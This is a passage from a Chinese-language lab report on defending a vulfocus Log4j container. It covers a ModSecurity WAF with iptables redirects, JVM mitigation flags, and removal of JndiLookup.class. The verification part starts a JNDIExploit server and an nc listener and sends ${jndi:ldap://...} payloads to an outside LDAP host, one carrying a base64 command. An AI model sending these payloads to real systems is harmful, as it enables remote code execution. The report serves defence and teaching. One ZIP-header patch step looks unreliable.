      - 改为从外部机器测试（例如 `curl http://<Target-IP>:8080`），确保流量经过 `PREROUTING` 链。

   (2) **添加 OUTPUT 链规则**
   如果必须从本机测试，可以在 `OUTPUT` 链中添加规则，将本机发出的流量重定向到 `81` 端口：
   ```bash
   sudo iptables -t nat -A OUTPUT -p tcp --dport 8080 -j REDIRECT --to-port 81
   ```

3. **保存规则**
   确保规则在重启后仍然生效：
   ```bash
   sudo iptables-save | sudo tee /etc/iptables/rules.v4
   ```
   

4. **测试最终效果**
   - 从外部机器测试 , 发送请求到 `8080` 端口：
      ```bash
      curl http://<Target-IP>:8080/
      ```
      检查是否被重定向到 `81` 端口，并经过 WAF。

   - 从本机测试 , 发送请求到 `8080` 端口：
      ```bash
      curl http://127.0.0.1:8080/
      ```
      检查是否被重定向到 `81` 端口，并经过 WAF。

---

##### [13] 测试 WAF 拦截

   发送包含恶意 payload 的请求：
   ```bash
   curl -X POST http://<Target-IP>:8080/ -d "param1=jndi:ldap://chloris.check4safe.top/exploit"
   ```
   检查是否返回 `403 Forbidden`，并查看 ModSecurity 日志：
   ```bash
   tail -f /var/log/apache2/modsec_audit.log
   ```

   这时再curl 一下,会发现了返回想要的指定指令,证明了攻击防御成功!
   - curl log4j服务所在的8080端口返回的内容 `Potential Log4j Exploit Attempt`
   

   - curl WAF服务所在的81端口返回的内容 `Potential Log4j Exploit Attempt`
   

   - curl 无服务所在的8082端口返回的内容显示`Fail to connect`
   


- **目前的网络拓扑图:**
   ```bash
   +-------------------+       +-------------------+       +-------------------+
   |      Client       | ----> |     WAF (Apache   | ----> |   Target Server   |
   |    (curl 请求)    |       |   + ModSecurity)  |       | (Log4j 测试环境) |
   +-------------------+       +-------------------+       +-------------------+
         |                           |                           |
         | 1. 发送请求到 81        | 2. iptables 重定向到 23509    | 3. 处理请求
         | ------------------------> | ------------------------> |
         |                           |                           |
         |                           | 4. 拦截恶意请求            |
         |                           | (返回 403 Forbidden)      |
         | <------------------------ |                           |
         |                           |                           |
         |                           | 5. 记录日志                |
         |                           | (modsec_audit.log)        |
   ```

   ```bash
   +-------------------+       +-------------------+       +-------------------+
   |      Client       | ----> |     WAF (Apache   | ----> |   Target Server   |
   |    (curl 请求)    |       |   + ModSecurity)  |       | (Log4j 测试环境) |
   +-------------------+       +-------------------+       +-------------------+
         |                                                     |
         |                      1. 发送请求到 23509           
         | ---------------------------------------------------> |
         |                            2. iptables 重定向到 81
                                       <------------------------ 
                                       3. 处理请求
         |                           |
         |                           | 4. 拦截恶意请求              |
         |                           | (返回 403 Forbidden)        |
         | <------------------------ |                             |
         |                           |                             |
         |                           | 5. 记录日志                  |
         |                           | (modsec_audit.log)          |
   ```

---

##### [14] 最终总结

1. **核心问题**
- iptables 规则可能被 Docker 干扰，或者流量未经过 `PREROUTING` 链。
- 需要确保流量经过 WAF，而不是直接访问 Target Server。

2. **解决步骤**
   - **添加 OUTPUT 链规则**：确保本机流量也被重定向。
   - **排除 Docker 干扰**：暂时停止 Docker 服务，测试规则是否生效。
   - **检查 Apache 配置**：确保 Apache 监听 `81` 端口并正确转发请求。

3. **最终效果**
- 所有到达 `8080` 端口的流量（无论是外部还是本机）都会被重定向到 `81` 端口。
- WAF 检测请求后，合法请求会被转发到 Target Server，恶意请求会被拦截。

---

##### [15] 恢复默认配置,便于进行后续实验
1. **删除 iptables 重定向规则**
   运行以下命令，查看当前的 `PREROUTING` 和 `OUTPUT` 链规则：
   ```bash
   sudo iptables -t nat -L -n -v
   ```

2. **删除重定向规则**
   删除 `PREROUTING` 链中的重定向规则：
   ```bash
   sudo iptables -t nat -D PREROUTING -p tcp --dport 8080 -j REDIRECT --to-port 81
   ```

   之前还添加了 `OUTPUT` 链规则，也需要删除：
   ```bash
   sudo iptables -t nat -D OUTPUT -p tcp --dport 8080 -j REDIRECT --to-port 81
   ```
   

3. **保存 iptables 规则**
   确保删除规则后，保存当前配置：
   ```bash
   sudo iptables-save | sudo tee /etc/iptables/rules.v4
   ```
   

4. **关闭 Apache 反向代理**
   打开 Apache 的虚拟主机配置文件：
   ```bash
   sudo vim /etc/apache2/sites-available/000-default.conf
   ```

   删除或注释掉反向代理配置：
   ```bash
   # <VirtualHost *:81>
   #     ProxyPreserveHost On
   #     ProxyPass / http://127.0.0.1:8080/
   #     ProxyPassReverse / http://127.0.0.1:8080/
   # </VirtualHost>
   ```

5. **禁用相关模块**
   禁用 `proxy` 和 `proxy_http` 模块：
   ```bash
   sudo a2dismod proxy
   sudo a2dismod proxy_http
   ```

   重启 Apache 以使更改生效：
   ```bash
   sudo systemctl restart apache2
   ```

6. **恢复 Target Server 配置**
   之前修改了 Target Server 的绑定地址（例如绑定到 `127.0.0.1`），需要恢复其监听外部地址（如 `0.0.0.0`）。
   **修改 Target Server 配置文件**
   - 打开 Target Server 的配置文件（如 `application.properties` 或启动命令）。
   - 将绑定地址改为 `0.0.0.0`：
      ```bash
      java -jar target-app.jar --server.address=0.0.0.0 --server.port=8080
      ```

7. **验证恢复结果**
   确保重定向规则已被删除：
   ```bash
   sudo iptables -t nat -L -n -v
   ```
   确保 Apache 不再监听 `81` 端口：
      ```bash
      sudo netstat -tuln | grep 81
      ```
   确保 Apache 不再转发请求到 `8080` 端口。

8. **测试 Target Server**
- 从客户端访问 Target Server：
   ```bash
   curl http://<Target-IP>:8080/
   ```
- 确保 Target Server 正常响应。



---

##### [16] 第一种方法总结

成功搭建并配置了 ModSecurity WAF，能够有效拦截 Log4j 漏洞攻击。实验过程中，学习了以下内容：
1. ModSecurity 的安装与配置。
2. OWASP CRS 的使用。
3. 针对 Log4j 漏洞的自定义规则配置。
4. 通过反向代理测试 WAF 的拦截效果。
5. 解决实验过程中遇到的常见问题。

实验结果表明，WAF 能够有效防御 Log4j 漏洞攻击，但需要定期更新规则集和监控日志，以确保其持续有效。

---


不影响ping别的ip地址



---

#### 第二种方法: 禁用 lookup 服务

##### 1. 构建 Docker 镜像

(1) **编写 Dockerfile**：
   - 在 `Dockerfile` 中定义了基于 `vulfocus/log4j2-rce-2021-12-09:1` 的镜像。
   - 设置环境变量 `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` 来防止 Log4j 漏洞。
   - 暴露容器的内部端口为 `8080`。
   - 设置容器启动命令为运行 `/demo/demo.jar`。
      ```dockerfile
      # 基于现有的镜像
      FROM vulfocus/log4j2-rce-2021-12-09:1
      # 设置环境变量（根据需要添加或修改）
      ENV LOG4J_FORMAT_MSG_NO_LOOKUPS=true
      # 固定容器的内部端口为 8080（无需在 Dockerfile 中指定端口映射，这在运行时完成）
      EXPOSE 8080
      # 设置容器的启动命令（如果需要修改默认启动命令）
      CMD ["java", "-jar", "/demo/demo.jar"]
      ```
      

(2) **构建 Docker 镜像：**
   - 使用 `docker build` 命令构建镜像，并将其命名为 `my-log4j2-rce:1`。
      ```bash
      docker build -t my-log4j2-rce:1 .
      ```
      

##### 2. 运行 Docker 容器
   - 使用 `docker run` 命令启动 `my_log4j2_container` 容器。
   - 将容器的 `8080` 端口映射到主机的 `8080` 端口。
   - 后台运行容器 (`-d` 参数)。
   ```bash
   docker run -d --name my_log4j2_container -p 8080:8080 my-log4j2-rce:1
   ```

##### 3. 验证容器运行状态
   - 使用 `docker ps` 命令查看正在运行的容器，确认 `my_log4j2_container` 已成功启动并运行正常。
   


##### 4. 访问应用
   - 打开浏览器或使用 `curl` 命令访问 `http://localhost:8080/hello`，验证应用是否可以正常访问。
      ```bash
      curl http://localhost:8080/hello
      ```
      
      

##### 5. 测试 Log4j 漏洞防护效果
   - 使用 `curl` 发送包含 `${jndi:ldap://chloris.check4safe.top}` 的请求，测试 Log4j 漏洞防护效果。
      ```bash
      curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://localhost:8080/hello -vv
      ```
      - 如果配置正确，请求应该被拦截，返回 `403 Forbidden` 和我之前配置的错误信息。
      

- 完成 !

---

#### 第三种方法: 通过JVM参数禁用JNDI查找

##### 1. 分析当前环境

首先，需要分析被攻击的容器环境：

```bash
docker ps
```

输出：

```
CONTAINER ID   IMAGE                               COMMAND                CREATED          STATUS          PORTS                                         NAMES
8e86d0e9ef1e   vulfocus/log4j2-rce-2021-12-09:1   "java -jar /demo/dem…" About a minute ago   Up About a minute   0.0.0.0:40615->8080/tcp, :::40615->8080/tcp   objective_driscoll
```

检查容器详情：

```bash
docker inspect objective_driscoll
```


##### 2. 临时缓解措施 - 通过JVM参数禁用JNDI查找

1. **停止当前容器**

```bash
docker stop objective_driscoll
```

2. **重新启动并添加JVM参数来禁用JNDI查找**

```bash
# 移除旧容器但保留其名称以重用
docker rm objective_driscoll

# 使用相同的镜像启动新容器，但添加安全参数
docker run -d --name objective_driscoll \
  -e JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true" \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  /bin/sh -c "java ${JAVA_OPTS} -jar /demo/demo.jar"
```


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker run -d --name objective_driscoll \
  -e JAVA_OPTS="-Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true" \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  /bin/sh -c "java ${JAVA_OPTS} -jar /demo/demo.jar"
WARNING: The requested image's platform (linux/amd64) does not match the detected host platform (linux/arm64/v8) and no specific platform was requested
bfca568f93133cae399687bb3b1978a3aecad223df2fa4dabb4b7fdead10c954
```

3. **验证JVM参数是否生效**

```bash
docker exec objective_driscoll ps aux | grep java
```


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker exec objective_driscoll ps aux | grep java
root           1  0.0  0.6 230684 13300 ?        Ssl  15:17   0:00 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /bin/sh /bin/sh -c java  -jar /demo/demo.jar
root           8 95.3 21.4 4087404 432784 ?      Sl   15:17   0:41 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /usr/bin/java java -jar /demo/demo.jar
```

通过ps aux命令查看进程状态，可以发现：

```bash
root           1  0.0  0.6 230684 13300 ?        Ssl  15:17   0:00 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /bin/sh /bin/sh -c java  -jar /demo/demo.jar
root           8 95.3 21.4 4087404 432784 ?      Sl   15:17   0:41 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /usr/bin/java java -jar /demo/demo.jar
```

这表明：

JVM安全参数未被正确应用到Java命令中
容器通过QEMU进行x86_64到ARM64的二进制转译执行
环境变量展开可能在QEMU转译过程中出现问题

```bash
# 重新启动容器，直接在命令行中添加安全参数
docker run -d --name objective_driscoll \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true -jar /demo/demo.jar
```


```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker run -d --name objective_driscoll \
  -p 40615:8080 \
  vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true -jar /demo/demo.jar
WARNING: The requested image's platform (linux/amd64) does not match the detected host platform (linux/arm64/v8) and no specific platform was requested
084815a8e54d2df4be58335c743c8934b065dcc73ae32d4dbdaafe014eff6b62
                                                                                
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker exec objective_driscoll ps aux | grep java
root           1 91.8 10.9 3717788 221836 ?      Ssl  15:24   0:10 /usr/libexec/qemu-binfmt/x86_64-binfmt-P /usr/bin/java java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false -Dlog4j2.disableJndi=true -jar /demo/demo.jar
```

从输出中可以看到：

安全参数成功应用 - 所有三个关键参数 `(-Dlog4j2.formatMsgNoLookups=true、-Dcom.sun.jndi.ldap.object.trustURLCodebase=false和-Dlog4j2.disableJndi=true)`现在都出现在Java进程的命令行中。

QEMU转译执行 - 进程是通过 `/usr/libexec/qemu-binfmt/x86_64-binfmt-P`在ARM64主机上运行x86_64二进制文件。注意命令行中同时出现了java和参数之前的java，这是QEMU转译的特殊情况。

架构转译特性 - 进程使用了大量内存(3717788 KB ≈ 3.7GB)，CPU使用率也较高(91.8%)，这是由于架构转译带来的额外开销。

改进总结

1. 直接命令行参数vs环境变量：在跨架构容器中，直接在命令行中指定JVM参数比通过环境变量更可靠，因为环境变量可能在QEMU转译层中丢失或未正确传递。
2. 验证参数应用：通过ps aux命令查看进程参数是确认安全缓解措施是否生效的关键步骤，不应该省略。
3. 跨架构注意事项：在ARM64上运行x86_64容器时，性能会有所下降，且某些行为可能与原生架构有所不同，这需要在实际操作和排错中特别注意。

这种方法成功应用了所有安全参数，有效缓解了Log4j漏洞，即使在跨架构环境中也能正常工作


---

### 六. 漏洞修复

#### 第一次尝试（失败）

首先，确认目标容器的运行状态：

```bash
docker ps
```

输出显示：


永久修复方案 - 移除 JndiLookup 类

这个修复方案通过从 log4j-core 包中移除 JndiLookup 类来完全禁用 JNDI 查找功能，从而永久修复漏洞。

##### 进入容器执行修复操作

```bash
# 进入容器
docker exec -it xenodochial_panini /bin/bash

# 安装必要工具
apt-get update && apt-get install -y zip unzip
```


##### 创建工作目录并准备环境

```bash
# 创建临时工作目录
mkdir -p /tmp/jar-fix
cd /tmp/jar-fix

# 复制并解压主应用 jar 文件
cp /demo/demo.jar ./
unzip demo.jar
```


```bash
# 查找 log4j 相关的 jar 文件
find BOOT-INF/lib -name "*log4j*.jar"
```


##### 修改 log4j-core 库以移除 JndiLookup 类

```bash
# 创建子目录处理 log4j-core jar
mkdir log4j-fix
cd log4j-fix

# 复制并解压 log4j-core
cp ../BOOT-INF/lib/log4j-core-2.14.0.jar ./
unzip log4j-core-2.14.0.jar
```


```bash
# 删除 JndiLookup 类 - 这是漏洞的根源
rm -f org/apache/logging/log4j/core/lookup/JndiLookup.class

# 验证类文件已被删除
ls -la org/apache/logging/log4j/core/lookup/JndiLookup.class 2>/dev/null || echo "已成功删除 JndiLookup 类"

```


```bash
# 重新打包修改后的 jar 文件
jar -cf log4j-core-2.14.0-fixed.jar .

# 用修复版替换原始 jar 文件
cp log4j-core-2.14.0-fixed.jar ../BOOT-INF/lib/log4j-core-2.14.0.jar

# 返回主目录
cd /tmp/jar-fix
```


##### 重新打包修复后的应用 JAR

```bash
# 重新打包整个应用
jar -cfM fixed-demo.jar META-INF BOOT-INF org

# 备份原始应用
cp /demo/demo.jar /demo/demo.jar.bak

# 替换为修复后的应用
cp fixed-demo.jar /demo/demo.jar

# 设置正确的权限
chmod 644 /demo/demo.jar

# 清理临时文件
cd /
rm -rf /tmp/jar-fix
```


##### 退出容器并重启应用使修复生效

```bash
# 退出容器
exit

# 重启容器应用修复
docker restart xenodochial_panini

# 检查容器是否成功重启
docker ps
```

出现问题：objective_driscoll重启失败


分析容器启动失败的原因

```bash
# 查看日志
docker logs xenodochial_panini
```


通过分析 Docker 容器日志，我发现了容器启动失败的具体原因：

#### 错误分析

###### 从日志中可以看出，应用最初成功启动了（Spring Boot banner和初始化消息正常），但在重启时出现了严重错误：

```
Exception in thread "main" java.lang.IllegalStateException: Failed to get nested archive for entry BOOT-INF/lib/spring-boot-starter-2.1.3.RELEASE.jar
...
Caused by: java.lang.IllegalStateException: Unable to open nested entry 'BOOT-INF/lib/spring-boot-starter-2.1.3.RELEASE.jar'. It has been compressed and nested jar files must be stored without compression. Please check the mechanism used to create your executable jar file
```

###### 根本原因

这个错误是由修改和重新打包JAR文件的方式导致的：

1. **压缩问题**：Spring Boot要求嵌套JAR文件（BOOT-INF/lib/中的依赖）必须不压缩存储，但的重新打包过程压缩了这些文件
2. **JAR结构破坏**：使用的 `jar -cfM`命令没有保留Spring Boot加载器所需的特殊结构

###### 重要的命令分析

```bash
jar -cfM fixed-demo.jar META-INF BOOT-INF org
```

这个命令中：

- `-c` - 创建新归档
- `-f` - 指定输出文件
- `-M` - 不创建MANIFEST文件

但缺少了关键的 `-0`（零）标志，该标志会指定"仅存储 - 不压缩"。

###### 解决方案

经验教训

1. **Spring Boot JAR修改复杂**：Spring Boot可执行JAR有特殊结构，不能用标准JAR工具简单修改

#### 第二次尝试（失败）

##### 修复 Log4j 漏洞 - 正确重新打包 JAR 文件

##### 1. 进入容器并准备环境

```bash
# 进入容器
docker exec -it infallible_mccarthy /bin/bash

# 安装必要工具
apt-get update && apt-get install -y zip unzip
```


##### 2. 创建工作目录

```bash
# 创建临时工作目录
mkdir -p /tmp/jar-fix
cd /tmp/jar-fix
```

##### 3. 定位并修复 log4j-core 库

```bash
# 复制原始 JAR 以便进行修改
cp /demo/demo.jar ./original-demo.jar

# 找出包含 log4j-core 的路径
jar -tf original-demo.jar | grep log4j-core
```


BOOT-INF/lib/log4j-core-2.14.0.jar

```bash
# 提取单个 JAR 文件
jar -xf original-demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar

# 创建临时目录以修改 log4j-core
mkdir log4j-fix
cd log4j-fix

# 解压 log4j-core JAR
jar -xf ../BOOT-INF/lib/log4j-core-2.14.0.jar

# 删除 JndiLookup 类
rm -f org/apache/logging/log4j/core/lookup/JndiLookup.class

# 确认删除成功
ls -la org/apache/logging/log4j/core/lookup/JndiLookup.class 2>/dev/null || echo "已成功删除 JndiLookup 类"

# 重新创建 log4j-core JAR（使用 -0 不压缩）
jar -cf0 ../BOOT-INF/lib/log4j-core-2.14.0.jar .

# 返回上一级目录
cd ..
```


##### 4. 使用适当方法修改 Spring Boot JAR

对于 Spring Boot 应用，最安全的方法是：

```bash
# 创建新目录存放修改后的 JAR 文件
mkdir fixed-jar
cp original-demo.jar fixed-jar/demo.jar

# 备份原始文件
cp /demo/demo.jar /demo/demo.jar.backup

# 复制修复后的 log4j-core 到原始 JAR
cd fixed-jar
mkdir -p BOOT-INF/lib/
cp ../BOOT-INF/lib/log4j-core-2.14.0.jar BOOT-INF/lib/

# 使用 zip 命令更新 JAR 中的文件（不更改其他结构）
zip -u demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar

# 将修复后的 JAR 替换原始文件
cp demo.jar /demo/demo.jar
```


##### 5. 退出容器并重启应用

```bash
# 退出容器
exit

# 重启容器
docker restart infallible_mccarthy

```

1. **使用 -0 标志**：确保 JAR 文件内容存储而不压缩
2. **使用 zip -u 更新**：只替换特定文件，保持其他结构不变
3. **最小化修改范围**：只替换有问题的 log4j-core JAR，不重建整个应用 JAR


容器启动失败，分析原因

容器成功启动（从 Spring Boot 的启动横幅和初始化信息可以看出）
它运行了一段时间，并且至少处理了一个请求（能看到在 00:25:06 时的日志记录）
在 00:32:49 时，某些情况触发了应用程序的关闭
当尝试重新启动时，修改后的 JAR 文件结构导致了失败

#### 第三次尝试（成功）

尝试以下确保正确保留 JAR 文件结构的方法：


```bash
# 从原始镜像启动一个新容器
# 进入容器
docker exec -it musing_lichterman /bin/bash

# 在容器内，安装所需工具并修复 JAR 文件
apt-get update && apt-get install -y zip unzip

# 仅提取 log4j-core JAR 文件
cd /tmp
mkdir fix
cd fix
cp /demo/demo.jar ./
unzip -p demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar > log4j-core.jar

# 修复 log4j-core JAR 文件
mkdir core
cd core
unzip ../log4j-core.jar
rm -f org/apache/logging/log4j/core/lookup/JndiLookup.class
zip -0 -r ../fixed-log4j-core.jar .

# 更新原始 JAR 文件，不进行重新压缩
cd ..
cp demo.jar demo.jar.original
printf "UEsDBAoAAAAAAA" | dd of=fixed-log4j-core.jar bs=1 count=12 conv=notrunc
zip -0 demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar

# 替换原始 JAR 文件
cp demo.jar /demo/demo.jar
```


完成这些步骤后，重启容器：

```bash
exit

docker restart musing_lichterman
```


启动成功

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker restart musing_lichterman

musing_lichterman
                                                                                                                   
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ docker ps               
CONTAINER ID   IMAGE                              COMMAND                  CREATED         STATUS                   PORTS                                         NAMES
7789812eb21b   vulfocus/log4j2-rce-2021-12-09:1   "java -jar /demo/dem…"   3 minutes ago   Up 7 seconds             0.0.0.0:47147->8080/tcp, :::47147->8080/tcp   musing_lichterman
f1dbefb28904   vulfocus/vulfocus:latest           "sh /vulfocus-api/ru…"   2 weeks ago     Up 4 minutes (healthy)   0.0.0.0:80->80/tcp, :::80->80/tcp             vulfocus_vul-focus_1
```

这种方法的关键区别在于：

始终使用 -0 标志以避免压缩
使用 printf "UEsDBAoAAAAAAA" | dd of=fixed-log4j-core.jar bs=1 count=12 conv=notrunc 来确保正确的 ZIP 头部
仅对必要的部分进行最小限度的修改

#### 6.验证Log4j漏洞修复

##### 1. 设置验证环境

首先，确保的攻击环境已准备就绪：

```bash
# 在攻击者机器上（10.37.132.3）
# 启动JNDI服务器
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 10.37.132.3

# 在攻击者机器的另一个终端中
# 启动监听器以接收潜在的回调
nc -lvnp 9999
```

##### 2. 测试漏洞

发送一个与利用时使用的测试负载类似的请求：

```bash
# 发送带有JNDI查找的测试负载
curl -X GET "http://10.37.133.3:47147/hello?payload=  \${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZXN0X2V4cGxvaXQK}"
```

如果执行此负载，它将尝试在 `/tmp/test_exploit`处创建一个文件。

##### 如何验证：

```bash
# 检查应用程序是否仍能正常运行（应返回正常响应）
curl -X GET "http://10.37.133.3:47147/hello?payload=\${jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC90ZXN0X2V4cGxvaXQK}"
```



```bash
# 连接到容器以检查利用命令是否被执行
docker exec -it musing_lichterman /bin/bash
ls -la /tmp/test_exploit  # 如果修复有效，此文件不应存在
```


##### 额外验证：

检查应用程序日志以获取修复的证据：

```bash
# 查看应用程序日志
docker logs musing_lichterman | grep -i jndi
```


##### Log4j 漏洞修复验证分析

###### 日志分析结果

通过 `docker logs musing_lichterman | grep -i jndi`命令输出的结果，可以清晰地看到漏洞修复成功的证据：

###### 关键发现

1. **JNDI表达式被当作普通文本处理**

   ```
   2025-03-24 06:03:43.896 ERROR 1 --- [nio-8080-exec-1] c.e.l.Log4j2RceApplication : $jndi:ldap://10.37.132.3:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9oYWNrZWQK
   ```

   注意表达式以 `$jndi` 而不是 `${jndi}` 形式出现，这表明表达式没有被解析执行。
2. **多次攻击尝试均无效**
   日志显示在6:03、6:13和6:14时间点有多次攻击尝试，但所有请求都只是被当作普通字符串记录下来。
3. **应用正常运行**
   服务器在收到攻击请求后继续正常运行，没有出现崩溃或异常行为。
4. **没有LDAP连接尝试**
   没有任何日志表明系统尝试进行LDAP连接或执行Base64编码的命令。

###### 综合结论

漏洞修复已经成功实施：

1. 成功移除了 `JndiLookup`类，完全禁用了JNDI查找功能
2. 攻击载荷被当作普通文本处理，不会触发任何代码执行
3. 即使面对多次攻击尝试，应用也保持稳定运行
4. 日志中清晰记录了攻击尝试但没有执行危险操作

这种通过直接从JAR包中移除有问题的类文件的修复方法比简单的配置参数调整更彻底，为应用提供了永久性的保护，防止此类漏洞被利用。

---


## PART4 遇到的问题

### 问题一 : 环境搭建问题

#### ARM64系统运行x86_64架构容器问题

**问题描述**：在ARM64架构的Mac上运行vulfocus容器(x86_64架构)时出现`exec /bin/sh: exec format error`错误，导致容器启动后立即退出。

**解决方案**：
- 安装QEMU用户态模拟工具：`sudo apt-get install qemu-user-static`
- 配置多架构支持：`sudo docker run --privileged --rm tonistiigi/binfmt --install all`
- 在Docker Compose中指定平台：添加`platform: linux/amd64`参数
- 验证跨架构支持：`docker run --platform linux/amd64 --rm -it alpine:latest sh -c "uname -m"`

---

### 问题二 : 漏洞缓解阶段问题

#### JVM安全参数未正确应用

**问题描述**：通过环境变量方式添加Log4j安全参数时，参数未能正确传递到Java进程。

**原因**：在QEMU跨架构模拟环境中，环境变量展开存在问题。

**解决方案**：
- 避免使用环境变量传递参数
- 直接在命令行中添加安全参数：
  ```bash
  docker run -d --name objective_driscoll -p 40615:8080 vulfocus/log4j2-rce-2021-12-09:1 \
  java -Dlog4j2.formatMsgNoLookups=true -Dcom.sun.jndi.ldap.object.trustURLCodebase=false \
  -Dlog4j2.disableJndi=true -jar /demo/demo.jar
  ```
- 验证参数是否应用：`docker exec objective_driscoll ps aux | grep java`

---

### 问题三 : 漏洞修复阶段问题

#### 第一次尝试修复失败

**问题描述**：修改JAR文件后容器无法启动，出现`IllegalStateException: Unable to open nested entry ...has been compressed`错误。

**原因**：Spring Boot要求嵌套JAR文件必须以不压缩方式存储，`jar -cfM`命令破坏了结构。

#### 第二次尝试修复失败

**问题描述**：即使使用`-0`不压缩标志，容器仍然启动失败。

**原因**：修改方式仍然破坏了Spring Boot JAR的特殊结构。

#### 第三次尝试成功

**成功解决方案**：
1. 从容器中提取log4j-core JAR文件：
   ```bash
   unzip -p demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar > log4j-core.jar
   ```

2. 修复log4j-core JAR (移除JndiLookup类)：
   ```bash
   mkdir core && cd core
   unzip ../log4j-core.jar
   rm -f org/apache/logging/log4j/core/lookup/JndiLookup.class
   zip -0 -r ../fixed-log4j-core.jar .
   ```

3. 正确更新原始JAR文件：
   ```bash
   printf "UEsDBAoAAAAAAA" | dd of=fixed-log4j-core.jar bs=1 count=12 conv=notrunc
   zip -0 demo.jar BOOT-INF/lib/log4j-core-2.14.0.jar
   ```

4. 替换并重启：
   ```bash
   cp demo.jar /demo/demo.jar
   docker restart musing_lichterman
   ```

#### 总结一下

1. **跨架构容器运行**：
   - 在ARM64上运行x86_64容器需要QEMU模拟支持
   - 跨架构容器会有性能开销(高CPU和内存使用)
   - 某些行为可能与原生架构有差异

2. **Java安全参数传递**：
   - 在跨架构环境中，直接命令行指定参数比环境变量更可靠
   - 务必验证参数是否生效，不仅依赖于容器是否启动成功

3. **Spring Boot JAR修改**：
   - Spring Boot JAR具有特殊结构，不能简单用标准JAR工具重新打包
   - 修改嵌套JAR时必须使用不压缩(-0)选项
   - 需要保留正确的ZIP文件头部信息
   - 最小化修改原则，只替换必要的文件

4. **漏洞修复验证**：
   - 重启后验证应用正常运行
   - 进行攻击测试验证修复有效性
   - 检查日志确认JNDI表达式被当作普通文本处理- 验证参数是否应用：`docker exec objective_driscoll ps aux | grep java`

---

### 问题四

#### 问题描述

在进行curl命令时 : 
```bash
curl -X GET "http://192.168.56.103:8080/hello?payload=\${jndi:ldap://chloris.check4safe.top/exp}"
```
有如下报错:
```
zsh: unrecognized modifier
```

这个报错是由于 `zsh` shell 对 `${}` 语法有特殊的解释方式，而 `${jndi:ldap://chloris.check4safe.top}` 被 `zsh` 解释为一个变量或特殊语法，导致 `zsh` 无法识别。

在 `zsh` 中，`${}` 是用于变量扩展或特殊字符处理的语法。因此，直接在命令行中使用 `${jndi:...}` 时，`zsh` 会尝试将其解释为一个变量或特殊语法，但由于 `jndi:...` 不是一个有效的变量或语法，所以会报错

#### 解决方法

##### 方法 1：使用单引号包裹参数
将 `${jndi:...}` 用单引号包裹起来，防止 `zsh` 解释它：
```bash
curl -G --data-urlencode 'payload=${jndi:ldap://chloris.check4safe.top}' http://192.168.20.6:23509/hello -vv
```

##### 方法 2：使用双引号并转义 `$`
在双引号中，使用反斜杠 `\` 转义 `$`，防止 `zsh` 解释它：
```bash
curl -G --data-urlencode "payload=\${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:23509/hello -vv
```

##### 方法 3：切换到 `bash` shell
如果不想修改命令，可以临时切换到 `bash` shell，因为 `bash` 对 `${}` 的解释方式与 `zsh` 不同：
```bash
